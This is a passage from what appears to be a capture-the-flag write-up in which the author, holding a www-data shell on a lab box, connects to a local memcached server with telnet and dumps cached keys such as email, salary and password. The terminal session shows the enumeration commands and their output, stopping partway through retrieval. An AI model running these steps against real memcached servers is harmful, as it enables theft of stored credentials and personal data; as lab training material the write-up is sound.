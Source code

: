 I looked for ways to get the data out of memcache and found [an interesting article about it](https://www.hackingarticles.in/penetration-testing-on-memcached-server/).

```
www-data@osboxes:/$ telnet localhost 11211
telnet localhost 11211
Trying 127.0.0.1...
Connected to localhost.
Escape character is '^]'.

version
VERSION 1.4.25 Ubuntu

stats
STAT pid 963
STAT uptime 549
STAT time 1624817301
STAT version 1.4.25 Ubuntu
STAT libevent 2.0.21-stable
STAT pointer_size 32
STAT rusage_user 0.012290
STAT rusage_system 0.012290
STAT curr_connections 1
STAT total_connections 12
....

stats slabs
STAT 1:chunk_size 80
STAT 1:chunks_per_page 13107
STAT 1:total_pages 1
STAT 1:total_chunks 13107
STAT 1:used_chunks 5
STAT 1:free_chunks 13102
STAT 1:free_chunks_end 0
STAT 1:mem_requested 321
STAT 1:get_hits 0
STAT 1:cmd_set 50
STAT 1:delete_hits 0
STAT 1:incr_hits 0
STAT 1:decr_hits 0
STAT 1:cas_hits 0
STAT 1:cas_badval 0
STAT 1:touch_hits 0
STAT active_slabs 1
STAT total_malloced 1048560
END


stats cachedump 1 0
ITEM id [4 b; 1624816692 s]
ITEM email [14 b; 1624816692 s]
ITEM salary [8 b; 1624816692 s]
ITEM password [15 b; 1624816692 s]
ITEM username [4 b; 1624816692 s]
END

get id
VALUE id 0 4
3476
END

get email
VALUE email 0 14
Orka@wekor.thm
```